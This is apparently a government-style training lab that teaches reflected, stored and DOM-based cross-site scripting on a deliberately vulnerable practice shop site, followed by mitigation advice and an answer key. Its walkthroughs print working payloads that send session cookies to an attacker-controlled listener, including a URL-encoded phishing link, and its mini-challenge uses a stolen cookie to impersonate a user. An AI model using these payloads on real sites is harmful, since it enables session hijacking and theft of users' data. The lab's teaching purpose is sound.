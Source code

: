 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Homepage of market.skills.hub showing featured products.](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.

![Product search page on market.skills.hub.](./img/s13-image2.png)

4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```

![Product search page with test JavaScript input '<script>alert("xss")</script>' entered in the search field on market.skills.hub.](./img/s13-image3.png)

5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 

![Search results page displaying the effect of the JavaScript input '<script>alert("xss")</script>' in the product search on market.skills.hub.](./img/s13-image4.png)

The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Homepage of market.skills.hub showing featured products.](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```

![Login page of market.skills.hub.](./img/s13-image5.png)

4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.

![Dashboard after logging in to market.skills.hub.](./img/s13-image6.png)

![Product page on market.skills.hub for leaving a product review.](./img/s13-image7.png)

5. (**Kali, Firefox**) Click the `Add a Review` button.

![Add a review form on market.skills.hub.](./img/s13-image8.png)

6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.

![Submit a review page on market.skills.hub.](./img/s13-image9.png)

7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```

![Terminal showing a simple web listener being set up using 'python3 -m http.server 80'.](./img/s13-image10.png)

8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.

![Terminal showing the result of the 'ip a' command.](./img/s13-image11.png)

9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```

![Submit a review page on market.skills.hub with malicious JavaScript inserted.](./img/s13-image12.png)

10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 

![Result page on market.skills.hub after clicking Submit Review.](./img/s13-image13.png)

11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![Terminal showing data captured by the previously created Python listener.](./img/s13-image18.png)

What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Promotions page on market.skills.hub.](./img/s13-image14.png)

3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 

![Promotions page after clicking "Apply Coupons".](./img/s13-image15.png)

4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```

!["Apply Coupons" link inspected on market.skills.hub.](./img/s13-image16.png)

5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```

![Inspect view showing expanded <script> tag on promotions page.](./img/s13-image17.png)

6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.

![Terminal showing result of 'ip a' command.](./img/s13-image11.png)

9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```

![Terminal running 'python3 -m http.server 9000'.](./img/s13-image19.png)

10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.

![Promotions page on market.skills.hub.](./img/s13-image20.png)

It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 

![Browser showing simulated phishing test with pasted URL.](./img/s13-image20.png)

12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```

![Browser redirected to malicious web server.](./img/s13-image21.png)

14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![Terminal showing Python web server GET request result.](./img/s13-image22.png)

Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 

![Grading page on skills.hub/lab/tasks with submit button clicked to test exploit.](./img/s13-image23.png)

- You can click the `Refresh` button that appears to check the status of the test.

![Grading page on skills.hub/lab/tasks after refresh.](./img/s13-image24.png)

- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```

![Grading page on skills.hub/lab/tasks showing grading results.](./img/s13-image25.png)

### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>
